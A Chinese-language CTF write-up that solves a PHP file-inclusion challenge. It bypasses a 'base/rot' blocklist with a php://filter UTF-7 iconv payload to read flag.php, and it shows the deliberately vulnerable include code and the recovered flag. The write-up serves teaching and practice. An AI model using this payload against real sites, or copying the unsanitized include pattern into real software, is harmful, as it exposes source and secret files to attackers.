 ```yaml
---
title: NewStarCTF 2023 include 0。0
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，可见如下代码，进行代码审计

```php
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?>
```

目标很明确，我们要把 `flag.php` 通过 `@include(file)` 弄出来，但是先看 if 条件语句里面的内容

```
isset($file) && !preg_match('/base|rot/i',$file)
```

首先要求的是通过 GET 传入的参数 `file` 存在，其次是里面不能出现 `base` 或者 `rot`，还很贴心地在正则表达式里面加了一个 `i`，表示不区分大小写

看到这里，已经知道要用 PHP 伪协议来解决问题了，我们通常可能都是这么写的：

```
php://filter/read=convert.base64-encode/resource=flag.php
```

或者像这样

```
php://filter/string.rot13/resource=flag.php
```

但很显然，他们俩都不行，我们需要想别的方法

## 另一种转换方式

说巧不巧，这边禁用了最常用的 `base` 和 `rot`，但恰好没有禁用掉 `iconv`，所以我们可以这么写

```
php://filter/read=convert.iconv.utf-8.utf-7/resource=flag.php
```

将 `flag.php` 从 `utf-8` 转为 `utf-7` 并输出，我们传入这个参数，得到如下内容

```php
<?php
highlight_file(__FILE__);
// FLAG in the flag.php
$file = $_GET['file'];
if(isset($file) && !preg_match('/base|rot/i',$file)){
    @include($file);
}else{
    die("nope");
}
?> +ADw?php //flag+AHs-77423cd8-2baa-4a40-9c05-e64e6cf46298+AH0
```

后面多出来的这一串就是从 utf-8 转到 utf-7 的字符，我们再给他丢到 CyberChef 里面转换一下，得到最终的 Flag：

```
<?php //flag{77423cd8-2baa-4a40-9c05-e64e6cf46298}
```
